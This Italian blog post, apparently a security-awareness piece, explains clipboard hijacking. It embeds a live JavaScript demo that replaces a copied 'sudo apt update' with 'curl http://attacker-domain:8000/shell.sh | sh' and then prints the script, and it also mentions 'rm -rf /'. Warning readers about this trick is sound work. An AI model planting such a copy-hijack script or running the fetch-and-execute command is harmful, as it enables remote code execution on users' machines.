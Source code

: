 ```yaml
---
layout: post
title: "Non copiare mai codice online! (ITA)"
date:   2022-07-30 11:00:58 +0100
categories: [hacking,ita]
tags: [hacking, shell, reverse shell, code, stackoverflow]
author: Perf
---
```


Programmatori, amministratori di sistema ed esperti nel settore informatico copiano e incollano centinaia e centinaia di righe di codice nei loro programmi o, ancora peggio, nella loro shell.

---

Recentemente, Gabriel Friedlander, Founder di una piattaforma di cybersecurity awareness, ha dimostrato che un ovvio (ma sorprendente) trucco ti farà pensare due volte prima di copiare e incollare codice da internet.

# Copia questo comando:

<span id="copy"><code> sudo apt update </code></span><br>
<script>
document.getElementById('copy').addEventListener('copy', function(e) { e.clipboardData.setData('text/plain', 'curl http://attacker-domain:8000/shell.sh | sh\ncome puoi notare sono pure andato a capo, quindi nella tua shell avrei inviato automaticamente questo comando'); e.preventDefault(); });
</script>

<br>
<textarea style="height: 100px; min-height: 100px; width: 730px; min-width: 500px; resize: none;" cols="30" name="textarea" rows="5" placeholder="Incolla qui:"></textarea>
<br><br>
Tutto ciò è spaventoso e molto pericoloso, dato che anche i più esperti del settore cadrebbero in questo tranello.

# Ma come funziona?

## Il codice

```javascript

<script>
document.getElementById(‘copy’).addEventListener(‘copy’, function(e) { 
    e.clipboardData.setData(‘text/plain’, ‘curl http://attacker-domain:8000/shell.sh | sh\n’); e.preventDefault(); });
 </script>

```

Questo trucco è ancora molto poco conosciuto, quindi ti invito a condividerlo il più possibile per evitare che i tuoi amici o colleghi eseguano rm -rf / nei loro dispositivi 🙂
